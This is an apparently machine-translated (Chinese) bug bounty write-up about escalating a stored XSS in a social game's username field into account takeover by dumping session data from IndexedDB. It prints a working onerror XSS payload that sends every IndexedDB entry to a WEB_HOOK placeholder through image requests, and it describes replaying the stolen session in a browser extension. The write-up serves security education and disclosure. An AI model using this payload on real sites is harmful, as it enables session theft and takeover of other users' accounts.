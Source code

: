 # 存储的 XSS 到帐户接管:超越 document.cookie |从 IndexedDB 窃取会话数据

> 原文：<https://infosecwriteups.com/stored-xss-to-account-takeover-going-beyond-document-cookie-970e42362f43?source=collection_archive---------0----------------------->

![](img/799d094e4d55811a499577e7216656c9.png)

**简介**

H 我是赛义德·穆希菲克·哈桑·塔辛，又名 [SMHTahsin33](https://twitter.com/SMHTahsin33) ，来自孟加拉国的 18 岁网络安全爱好者。我对信息安全感兴趣是因为好奇，并且我在空闲时间做 bug 奖金。在这个部门工作了大约两年半。

**进入目标**

让我们深入主要的 web 应用程序。我们的目标是一款类似社交网络应用的游戏，它提供类似虚拟现实的功能，可以在特定的世界/空间中漫游并与其他人一起游戏。一个空间一次可以容纳 15 个用户。

**主要问题**

用户名容易受到存储的 XSS 的攻击，并且没有任何字符限制。当用户在空间 A 中添加任何资产(如图像、视频)时，屏幕顶部会弹出一个通知，提示说:“用户 A 刚刚向该空间添加了一个视频。你看看！”。名称的反射是易受攻击的反射点，当添加任何资产时，由于通知的出现，名称中的脚本会被执行。

![](img/9d1acc964806e6c07ef45699caa91104.png)

**混乱**

我的第一个基本有效负载是  ，它是反射的，但没有被执行，因为输入被添加到 **innerHtml** 中，通过 javascript 动态添加。但是只使用<img src = x on error = alert(document . cookie)>就可以弹出一个窗口。但是…

![](img/222062440e63717d6f14a21d12c69ad5.png)

如您所见，这些是弹出的 cookies，我可以肯定地说这些不是用于会话识别目的的东西。

**调查** 
那么 Web 应用程序是如何识别哪个用户登录的呢？那么让我们来讨论会话信息通常存储在哪里？

最常见的答案是在饼干里。但是没有，正如你所看到的，他们没有使用 cookies 来保存用户会话。另一个常用的存储是浏览器的本地存储，可以通过 **window.localStorage** 和 **JSON.stringify** 轻松访问:

![](img/f33fc3102f3fbbc8a25a77871d28b0bf.png)

但是在我的目标中，他们也没有使用本地存储，而是使用 [**IndexedDB**](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 来保存用户的会话信息。让我们先来了解一下 IndexedDB 然后:

> **IndexedDB** 是一个低级 API，用于客户端存储大量结构化数据，包括文件/blob。这个 API 使用索引来实现对这些数据的高性能搜索。虽然[网络存储](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API)对于存储少量数据很有用，但是对于存储大量结构化数据就没那么有用了。 **IndexedDB** 提供了解决方案。
> **IndexedDB** 是内置在浏览器中的数据库，比`**localStorage**`强大得多。
> 
> 通过键、多种键类型存储几乎任何类型的值。
> 
> 支持可靠性事务。
> 
> 支持关键字范围查询和索引。
> 
> 可以存储比`**localStorage**`大得多的数据量。

**有效载荷制作**

所以当我确认他们使用了浏览器的**【应用】**标签中的 **IndexedDB** 。

![](img/3f4dfb20fa5e58ca3974813bb548c453.png)

我不得不阅读文档来更多地了解它，在尝试了很多之后，我无法使用 JS 转储任何数据(这是当你没有足够的开发经验时会发生的事情)。

然后花更多的时间寻找从索引中转储数据的方法，我偶然发现了 OWASP 的这个网页:

[](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/12-Testing_Browser_Storage) [## WSTG-4.2 版

### WSTG-OWASP 基金会主网站上的 4.2 版。OWASP 是一个非营利基金会，致力于改善…

owasp.org](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/12-Testing_Browser_Storage) 

这里他们提供了所有测试浏览器存储的方法，我在**WSTG 4.2 版**中找到了这段代码

打印**索引的所有内容 DB:**

```
const dumpIndexedDB = dbName => {
  const DB_VERSION = 1;
  const req = indexedDB.open(dbName, DB_VERSION);
  req.onsuccess = function() {
    const db = req.result;
    const objectStoreNames = db.objectStoreNames || []; console.log(`[*] Database: ${dbName}`); Array.from(objectStoreNames).forEach(storeName => {
      const txn = db.transaction(storeName, 'readonly');
      const objectStore = txn.objectStore(storeName); console.log(`\t[+] ObjectStore: ${storeName}`); // Print all entries in objectStore with name `storeName`
      objectStore.getAll().onsuccess = event => {
        const items = event.target.result || [];
        items.forEach(item => console.log(`\t\t[-] `, item));
      };
    });
  };
};indexedDB.databases().then(dbs => dbs.forEach(db => dumpIndexedDB(db.name)));
```

当我把它粘贴到控制台上时，令我惊讶的是它居然成功了:)

![](img/3896922d23bedb91d11274371b61c85d.png)

但是我必须把它注入到错误事件处理程序中，这个太大了，而且有空格，看起来很乱。然后我使用 [**JS Minifier**](https://www.toptal.com/developers/javascript-minifier) 将代码缩减成这样，并使空格不成问题，我将整个代码修改成一个函数:

```
(function(){const dumpIndexedDB=a=>{let b=indexedDB.open(a,1);b.onsuccess=function(){let c=b.result,d=c.objectStoreNames||[];console.log(`[*] Database: ${a}`),Array.from(d).forEach(a=>{let b=c.transaction(a,"readonly"),d=b.objectStore(a);console.log(`	[+] ObjectStore: ${a}`),d.getAll().onsuccess=a=>{let b=a.target.result||[];b.forEach(a=>console.log("\\t\\t[-] ",a))}})}};indexedDB.databases().then(a=>a.forEach(a=>dumpIndexedDB(a.name)))})()
```

**数据泄露**

这样做很好，剩下的事情就是将转储的数据过滤到我自己的服务器上。为此，有效载荷需要更多的修改，正如我之前所说的，我之前没有任何 JS 经验，我最终 ping 了 [**Rayhan Ahmed**](https://twitter.com/Rayhan0x01) 兄弟，多亏了他，他为我修改了有效载荷，这对于数据渗透来说是完美的:

```
indexedDB.databases().then((e=>e.forEach((e=>(e=>{let o=indexedDB.open(e,1);o.onsuccess=function(){let t=o.result,n=t.objectStoreNames||[];(new Image).src='WEB_HOOK?exfil=database:'+encodeURIComponent(e),Array.from(n).forEach((e=>{let o=t.transaction(e,'readonly').objectStore(e);console.log(`[+] ObjectStore:${e}`),o.getAll().onsuccess=e=>{(e.target.result||[]).forEach((e=>{(new Image).src="WEB_HOOK?exfil=table:'+JSON.stringify(e)}))}}))}})(e.name)))));
```

我只是用我的 **Webhook URL** 替换了 **WEB_HOOK** ，并再次注入了有效载荷。最终有效载荷:

```
<img src=x onerror="(function(){indexedDB.databases().then((e=>e.forEach((e=>(e=>{let o=indexedDB.open(e,1);o.onsuccess=function(){let t=o.result,n=t.objectStoreNames||[];(new Image).src='WEB_HOOK?exfil=database:'+encodeURIComponent(e),Array.from(n).forEach((e=>{let o=t.transaction(e,'readonly').objectStore(e);console.log(`[+] ObjectStore:${e}`),o.getAll().onsuccess=e=>{(e.target.result||[]).forEach((e=>{(new Image).src='WEB_HOOK?exfil=table:'+JSON.stringify(e)}))}}))}})(e.name)))))})()">
```

当我再次复制这些步骤时，通知在每个用户的浏览器中弹出，有效负载被执行，导致他们的会话被记录到我的 **Webhook** 。您还可以使用任何其他**带外服务**，包括您的 **VPS** 进行数据渗透:

![](img/cd48e678ba468766518cf76bd82cecea.png)

成功窃取了受害者的会话，然后我所要做的就是复制并粘贴它，使用[**IndexedDbEdit**](https://chrome.google.com/webstore/detail/indexeddbedit/npjecebdjnmlolggnoajngnlodhgpfac?hl=en-GB)**chrome 扩展替换我自己的会话信息:**

**![](img/3450988a7d4dfb4b9d9e021050cc6160.png)**

**点击保存图标后，浏览器重新加载，我成功地进入了受害者的仪表板**

**感谢阅读。希望你喜欢看这篇文章，不要忘记分享！**

**再见！**

**来自 Infosec 的报道:Infosec 上每天都有很多内容，很难跟上。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！***